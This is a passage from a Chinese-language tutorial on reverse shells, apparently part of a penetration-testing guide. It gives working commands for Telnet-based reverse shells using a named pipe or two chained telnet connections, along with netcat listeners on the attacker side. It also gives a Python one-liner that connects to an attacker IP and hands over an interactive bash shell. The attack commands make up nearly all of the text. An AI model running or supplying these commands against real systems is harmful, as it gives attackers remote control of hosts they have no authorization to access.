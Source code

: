 当nc和/dev/tcp不可用，且目标主机和攻击机上支持Telnet服务时，我们可以使用Telnet反弹shell。

### **方法一**

**攻击机开启本地监听：**

```shell
nc -lvvp 2333
```

**目标机主动连接攻击机：**

```shell
mknod a p; telnet 攻击方ip 2333 0<a | /bin/bash 1>a
```

### **方法二**

**攻击机需要开启两个本地监听：**

```shell
nc -lvvp 2333nc -lvvp 4000
```

**目标机主动连接攻击机：**

```shell
telnet 攻击机ip 2333 | /bin/bash | telnet 攻击机ip 4000
```

**获得shell后，在攻击机2333端口的终端上输入的命令会在目标机上执行，执行的回显将通过4000端口的终端显示出来。**

## **0x06 各种脚本反弹shell**

### **1. Python 脚本反弹shell**

当目标主机上有python环境时，我们可以用Python来反弹shell。Python在现在一般发行版Linux系统中都会自带，所以使用起来也较为方便，即使没有安装，我们手动安装也很方便。

**攻击机开启本地监听：**

```shell
nc -lvvp 2333
```

**目标机主动连接攻击机：**

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.130",2333));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```

执行效果如下：

![img](assets/1668677701435-d7988823-15e0-4271-ba04-7f94e71be368.png)
